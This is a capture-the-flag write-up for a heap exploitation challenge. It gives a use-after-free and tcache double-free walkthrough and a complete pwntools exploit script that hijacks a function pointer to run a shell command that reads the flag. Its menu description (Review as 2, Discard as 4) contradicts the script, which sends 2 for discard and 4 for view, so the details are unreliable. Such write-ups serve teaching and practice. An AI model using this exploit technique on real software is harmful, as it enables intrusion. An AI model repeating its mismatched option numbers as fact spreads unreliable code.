

# Cyber BlindBox

**Category:** Binary Exploitation
**Flag:** `UMCS{50af76ba-ac53-4909-bbf4-a1c0885e8d63}`

## Challenge Overview



> **Service:** `nc chal.umcybersec.site 10245`
>
> **Hints:**
> - "Discarding a box doesn't wipe its existence from your shelf. (UAF)"
> - "Can you write a review that overwrites the `print_desc` function pointer to call the hidden `secret_grant` function?"

## Initial Enumeration / Recon

Connecting to the service reveals a simple menu:

```
1. Draw     (allocate a box — malloc a 0x38-byte heap object)
2. Review   (write a text review into the box)
3. View     (call the box's print_desc function pointer)
4. Discard  (free the box, but the shelf pointer is NOT nulled)
```

The key observation: `Discard` calls `free()` on the heap chunk but **never sets the slot pointer to NULL**. After freeing, both `Review` (write) and `View` (read/call) still operate on the freed memory — classic UAF.

## Vulnerability Analysis

Each shelf slot holds a 0x38-byte heap object. At offset `0x00` sits a **function pointer** (`print_desc`) called by `View`.

The hidden function `secret_grant` at `0x4012b6` XOR-decodes a string with `0x62` and passes it to `system()` — executing `cat flag.txt`.

**Plan:** exploit tcache with a double-free to make `slot[4]->print_desc` point to `0x4012b6`, then call `View`.

1. Allocate slot 0, then `Discard` it → lands in tcache.
2. `Review(slot 0, 39 bytes)` → overwrites the freed chunk's tcache `key` field.
3. `Discard(slot 0)` again → double-free bypasses glibc's check since `key` was clobbered.
4. Draw four more times → walks the poisoned tcache chain.
5. Slot 3 and slot 4 now overlap → `Review(slot 3)` controls slot 4's `print_desc`.
6. `Review(slot 3, p64(0x4012b6) + padding)` → overwrites slot 4's function pointer.
7. `View` → `secret_grant()` → `cat flag.txt`.

## Exploitation Steps

```python
from pwn import *

context.binary = elf = ELF("./blindbox", checksec=False)
context.log_level = "info"

HOST = "chal.umcybersec.site"
PORT = 10245

SECRET_GRANT = 0x4012b6

def menu(io, choice):
    io.sendlineafter(b"> ", str(choice).encode())

def draw(io):      menu(io, 1)
def discard(io, idx):
    menu(io, 2);   io.sendlineafter(b"Slot to discard: ", str(idx).encode())
def review(io, idx, payload):
    menu(io, 3)
    io.sendlineafter(b"Slot to review: ", str(idx).encode())
    io.sendafter(b"Review content: ", payload)
def view(io):      menu(io, 4)

io = remote(HOST, PORT)

draw(io)
discard(io, 0)
review(io, 0, b"A" * 39)
discard(io, 0)
for _ in range(4): draw(io)
review(io, 3, p64(SECRET_GRANT).ljust(0x27, b"A"))
view(io)

io.interactive()
```

## Flag

```
UMCS{50af76ba-ac53-4909-bbf4-a1c0885e8d63}
```

UAF bugs are nasty in practice. The double-free bypass worked because writing to freed memory let us clobber the tcache integrity field. Modern glibc (2.35+) with Safe Linking would encrypt the tcache `next` pointer — but the takeaway is "always null your pointers after free."
